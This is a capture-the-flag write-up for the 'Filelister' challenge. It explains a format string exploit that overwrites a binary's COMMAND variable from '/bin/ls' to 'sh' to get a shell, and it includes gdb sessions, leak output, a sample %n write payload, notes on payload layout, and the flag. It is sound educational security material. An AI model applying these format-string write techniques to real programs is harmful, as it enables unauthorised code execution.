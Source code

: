 # Filelister

### Description

![](Description1.png)

![](Description2.png)

## Solution

### Basic Analysis

#### Static

I disassembled the binary in `FileAnalysis.txt`
From the
The variable `COMMAND` is stored in `rip+0x200913` (or also in `0x601058` I think)

#### Dynamic

Through some experimentation on the input we know we can access the input on the stack in the format string from the 4th parameter onwards

```
(base) [hacker@hackerbook Filelister]$ ./Given/filelister
 _______  _     _  __    _  _______  __   __  _______  _______  ______   
|       || | _ | ||  |  | ||       ||  | |  ||       ||       ||    _ |  
|    _  || || || ||   |_| ||_     _||  | |  ||_     _||   _   ||   | ||  
|   |_| ||       ||       |  |   |  |  |_|  |  |   |  |  | |  ||   |_||_
|    ___||       ||  _    |  |   |  |       |  |   |  |  |_|  ||    __  |
|   |    |   _   || | |   |  |   |  |       |  |   |  |       ||   |  | |
|___|    |__| |__||_|  |__|  |___|  |_______|  |___|  |_______||___|  |_|

=========================================================================
                         Stage 4: FileLister
=========================================================================
Enter Username => AAAA %x %x %x %x %x %x %x %x %x %x %x
Greetings AAAA 87ecd290 0 0 87ecf3b0 0 41414141 25207825 20782520 78252078 25207825 df6a6808
Here are my files!
Description1.png  Description2.png  FileAnalysis.txt  Given  README.md	solve.py
(base) [hacker@hackerbook Filelister]$
```

I opened the binary in gdb and tried to confirm the location of thh `COMMAND variable`

```
Breakpoint 1, 0x0000000000400751 in main ()
(gdb) ni
0x0000000000400758 in main ()
(gdb) ni
0x0000000000400761 in main ()
(gdb) info reg
rax            0xa3a74f800b8aa400  -6654262513048574976
rbx            0x400880            4196480
rcx            0x7ffff7f98598      140737353713048
rdx            0x7fffffffe5b8      140737488348600
rsi            0x7fffffffe5a8      140737488348584
rdi            0x1                 1
rbp            0x7fffffffe4b0      0x7fffffffe4b0
rsp            0x7fffffffe3a0      0x7fffffffe3a0
r8             0x0                 0
r9             0x7ffff7fdc070      140737353990256
r10            0x69682ac           110527148
r11            0x202               514
r12            0x400610            4195856
r13            0x0                 0
r14            0x0                 0
r15            0x0                 0
rip            0x400761            0x400761 <main+20>
eflags         0x206               [ PF IF ]
cs             0x33                51
ss             0x2b                43
ds             0x0                 0
es             0x0                 0
fs             0x0                 0
gs             0x0                 0
(gdb) x/s 0x601058
0x601058 <COMMAND>:	"/bin/ls"
(gdb) x/s 0x60105D
0x60105d <COMMAND+5>:	"ls"
```

### Approach

#### Modifying the values

The main idea is to modify the value of the `COMMAND` variable to be `sh`, such that it gives a shell which we can then do stuff with.
```
Breakpoint 2, 0x0000000000400852 in main ()
(gdb) set {char [8]}0x601058="/bin/sh"
(gdb) x/s 0x601058
0x601058 <COMMAND>:	"/bin/sh"
(gdb) continue
Continuing.
[Detaching after vfork from child process 81537]
[Inferior 1 (process 81290) exited normally]
(gdb)
```
```
Breakpoint 2, 0x0000000000400852 in main ()
(gdb) set {char [8]}0x601058="echo 1 "
(gdb) continue
Continuing.
[Detaching after vfork from child process 82035]
1
[Inferior 1 (process 81992) exited normally]
(gdb)

```

Testing setting the value of `COMMAND` with an integer.
```
Breakpoint 2, 0x0000000000400852 in main ()
(gdb) set {int}0x60105B=4050481227897136438
(gdb) x/s 0x601058
0x601058 <COMMAND>:	"/bi6e2f"
(gdb) set {int}0x60105D=0x7363
(gdb) x/s 0x601058
0x601058 <COMMAND>:	"/bi6ecs"
(gdb) set {int}0x60105D=0x736c
(gdb) x/s 0x601058
0x601058 <COMMAND>:	"/bi6els"
(gdb) set {int}0x601058=0x0000736c
(gdb) x/s 0x601058
0x601058 <COMMAND>:	"ls"
(gdb)
(gdb) set {int}0x601058=0x00006873
(gdb) x/s 0x601058
0x601058 <COMMAND>:	"sh"
```

### Organising the payload

This is a typical format string exploit, as you can see from the `printf(username)` in the source code. If you don't understand what is this, google for LiveOverflow's Binary Exploitation Video series (as what I usually say).

Usually for a format string exploit where we put the values in the payload like this

```
address + %{excess padding required to reach length}p+%{nth argument to printf (to reach the address)}n
```

For example, the code below writes the value `26739 = 0x00006873` to the 4th item on the stack
```
\x58\x10\x60\x00\x00\x00\x00\x00%26731x%4$n
```

However there is a problem with this approach. Since our variable address is so small, it is full of null bytes `\x00`. The program would only look at the string till the null byte, so it becomes like this
```
\x58\x10\x60
```

A way I thought to get around this is just to move the address to the back of the payload so it doesn't screw up the string passed into the `printf` function. You also need some padding before the address, so that the address fits nicely into a  memory location printf can call from. Kind of like this
```
%{excess padding required to reach length}p+%{nth argument to printf (to reach the address)}n + padding2(from 0 to 8 characters) + address
```

We know the excess padding required to reach the length, but we don't know what argument the address is, and the amount of padding required

#### Fuzzing

I basically coded a python program in `solve.py` to find the above 2 values needed. After that it connects to the server, sends the payload and gets the flag.

 Some things to take note.
1. It is a 64 bit binary, so the address needs to be 16 bytes long. Notice how when you input in `%p` the program gives an output of more than just 8 bytes long?
    ```
    $ Given/filelister
     _______  _     _  __    _  _______  __   __  _______  _______  ______   
    |       || | _ | ||  |  | ||       ||  | |  ||       ||       ||    _ |  
    |    _  || || || ||   |_| ||_     _||  | |  ||_     _||   _   ||   | ||  
    |   |_| ||       ||       |  |   |  |  |_|  |  |   |  |  | |  ||   |_||_
    |    ___||       ||  _    |  |   |  |       |  |   |  |  |_|  ||    __  |
    |   |    |   _   || | |   |  |   |  |       |  |   |  |       ||   |  | |
    |___|    |__| |__||_|  |__|  |___|  |_______|  |___|  |_______||___|  |_|

    =========================================================================
                             Stage 4: FileLister
    =========================================================================
    Enter Username => %p
    Greetings 0x7ffce549e660
    Here are my files!
    ```
    What this means is that the address needs to be 16 bytes long. In short, what this means in pwntools is to use `p64` for packing bytes not `p32`
2. `%p` is always better than `%x`, because when a hex value is printed using `%p`, it also has the `0x` header automatically given for you. Easy way to separate the values if for example you give in an input like `%p%p`
3. When `printf` calls the arguments, it is reading off from the original string input, **NOT the formatted string given as output**. Conceptually this makes sense, because when reading off the arguments from the stack, it is the inital string that is on the stack, and not the formatted string output. But this is just here just in case there is any conceptual misunderstanding.

Running `solve.py` should get you the flag, as well as an interactive shell if you are interested.

## Flag

`CTFSG{f1l3l15t3r_m0r3_l1k3_sh3ll_pr0v1d3r}`
